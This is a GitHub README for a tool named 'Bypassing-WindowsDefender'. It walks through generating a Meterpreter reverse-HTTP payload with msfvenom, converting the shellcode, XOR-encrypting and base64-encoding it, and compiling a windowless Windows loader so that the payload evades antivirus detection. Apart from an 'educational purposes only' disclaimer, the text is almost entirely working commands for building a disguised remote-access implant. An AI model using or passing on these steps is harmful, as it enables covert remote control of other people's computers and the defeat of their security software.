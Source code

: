 ## Bypassing-WindowsDefender

This project is for educational purposes only and should not be used for illegal or malicious activities.

### External library used in this project

- https://github.com/ReneNyffenegger/cpp-base64

### Creating stageless payload

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=<PORT> -f c -o main.c
```

### Copying our shellcode to the clipboard

```bash
sed -E 's/"\\/0/g;s/"$/,/g;s/\\x/, 0x/g;s/";//g;/unsigned char [A-Za-z]+\[\] =/d' main.c | xclip -sel clip
```

- Create a file called `payload.txt` in the same folder where the `tool.py` script is located and paste your shellcode there.

### Running tool.py

```powershell
python3 tool.py
```

- Copy the subtraction value and add it to main.cpp in `int subtract = [HERE];`. (This is just to avoid using the xor key directly in the code, you can remove it if you want)

- Remember that you can change the value of the `xor_value` variable in the `tool.py` code.
- The tool will create a file called `payload.b64`, which will contain your encrypted and base64-encoded shellcode that you must replace in the main.cpp.

### Compilation command

```powershell
g++.exe -m64 -o app.exe -lkernel32 -static main.cpp base64.cpp -mwindows -I . -D_WIN32_WINNT=0x0601
```

Make sure you have `base64.h` and `base64.cpp` in your project.

### Demo video

https://user-images.githubusercontent.com/89106058/237018521-ff5d43e9-b833-421f-9a83-e47385bf5a0c.mp4


